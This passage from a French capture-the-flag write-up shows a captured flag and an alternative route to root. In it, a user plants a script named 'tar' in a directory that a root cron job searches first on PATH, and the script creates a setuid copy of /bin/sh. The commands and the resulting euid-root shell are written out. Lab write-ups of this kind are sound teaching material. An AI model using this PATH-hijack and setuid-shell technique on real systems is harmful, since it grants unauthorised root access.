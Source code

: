 ```shellsession
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
```

## Autre méthode

Pour faire le chemin depuis james on peut exploiter le fait que le dossier personnel de l'utilisateur est en premier de l'ordre de path spécifié dans la crontab :

```shellsession
james@ubuntu-xenial:~$ cat privesc.sh 
#!/bin/sh
cp /bin/sh /tmp/rootshell
chmod 4755 /tmp/rootshell
james@ubuntu-xenial:~$ cp privesc.sh tar
```

On attend un peu et BOUM on a notre shell avec euid root :

```shellsession
james@ubuntu-xenial:~$ /tmp/rootshell -p
# id
uid=1002(james) gid=1002(james) euid=0(root) groups=1002(james)
```

Cela ne fonctionne pas en usurpant la commande cd, certainement car c'est une commande builtin à bash.

On aurait aussi pu se servir des wildcards comme sur le [CTF /dev/random: Pipe](https://devloop.users.sourceforge.net/index.php?article137/solution-du-ctf-dev-random-pipe-de-vulnhub).

## Conclusion

Encore un de ces CTFs où l'auteur semble avoir tenté de placer certaines idées, n'a pas réussi à les exploiter lui même et est passé à une solution alternative.

Au final un CTF qui manque de logique.
